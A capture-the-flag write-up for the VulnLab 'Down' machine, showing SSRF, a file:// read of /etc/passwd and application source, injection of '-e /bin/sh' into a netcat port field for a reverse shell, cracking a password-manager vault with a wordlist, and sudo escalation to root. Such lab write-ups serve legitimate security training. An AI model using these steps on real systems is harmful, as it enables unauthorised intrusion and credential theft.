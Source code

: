```yaml
---
title: VulnLab -- Down Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: images/down-banner.png
---
```

# Down

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Down** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/down-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.80.76
```

![image.png](../images/down.png)

Now let’s go and enumerate the website running on port 80

![image.png](../images/down%201.png)

The web application has a simple functionality that check if the website is down or not.

Now let’s open a http server and try to request ourselves

```bash
python3 -m http.server 80
```

![image.png](../images/down%202.png)

Now let’s enter our host in the application

```bash
http://10.8.5.233
```

![image.png](../images/down%203.png)

Now let’s see if we go a request!

![image.png](../images/down%204.png)

and we Did!

Now let’s try Server-Side Request Forgery (SSRF)

```bash
http://127.0.0.1
```

![image.png](../images/down%205.png)

Okay nice we got a response back.

Now let’s try to fuzz the localhost ports using FFUF

First let us create a port wordlist

```bash
for i in {1..65535}; do echo $i >> ports.txt; done
```

![image.png](../images/down%206.png)

Now let’s use FFUF

```bash
ffuf -u "http://10.10.80.76/index.php" -X POST --data "url=http://127.0.0.1:FUZZ" -w ports.txt -fw 131
```

![image.png](../images/down%207.png)

Unfortunately no luck! 😓

Let’s go back to our website and try to add the file wrapper after the valid URL

```bash
http://10.8.5.233/ file:///etc/passwd
```

![image.png](../images/down%208.png)

and we did it we have a Local File Inclusion so let’s go and read the source code of the application.

```bash
http://10.8.5.233/ file:///var/www/html/index.php
```

![image.png](../images/down%209.png)

> Amazing! we got the application source code.
> 

Now let’s start analysis.

```php
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">'; 
```

![image.png](../images/down%2010.png)

> Notice that there is an advanced feature named expertmode this allow us to execute nc in the server terminal
> 

now let’s try to abuse it

First go to the website and enable the expert mode through the expertmode GET parameter.

```bash
http://10.10.80.76/index.php?expertmode=tcp
```

![image.png](../images/down%2011.png)

notice that the design changed!

Now open a listener on your machine 

```bash
nc -nlvp 1337
```

![image.png](../images/down%2012.png)

no go back to the website and enter you IP in the IP filed and you port in the port tab and intercept the request.

![image.png](../images/down%2013.png)

Now let’s intercept the request.

![image.png](../images/down%2014.png)

now in the port parameter append the following

```bash
-e /bin/sh
```

![image.png](../images/down%2015.png)

That will till the nc to execute the bash to us.

now send and go back to our listener.

![image.png](../images/down%2016.png)

now let’s stable the shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/down%2017.png)

now press CTRL + Z

![image.png](../images/down%2018.png)

now let’s enter this in the terminal

```python
stty raw -echo;fg
```

![image.png](../images/down%2019.png)

last enter this command

```python
export TERM=xterm
```

![image.png](../images/down%2020.png)

now we got full stable shell

also we got the flag yeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeah!

![image.png](../images/down%2021.png)

now let’s try to get root privilege

navigate to the local user directory

```python
cd /home/aleks/.local/share/pswm
```

![image.png](../images/down%2022.png)

Notice that we found the user password manager so let’s use pswm-decryptor to decrypt it.

```python
cat pswm
```

![image.png](../images/down%2023.png)

now let’s run the decryptor

```python
python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt 
```

![image.png](../images/down%2024.png)

notice that we decrypted the passwords and got the password for the user Aleks.

Now let’s login via SSH

```python
ssh aleks@10.10.80.76
```

![image.png](../images/down%2025.png)

and we logged it! 

Now let’s try to see our privileges on the machine

```python
sudo -l
```

![image.png](../images/down%2026.png)

notice that we can run everything as root!

```python
sudo su
```

![image.png](../images/down%2027.png)

now let’s cd to the root directory and see the flag!

```python
cd /root;ls -las
```

![image.png](../images/down%2028.png)

Amazing I did it!

![image.png](../images/down%2029.png)

That’s it for the **Down** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT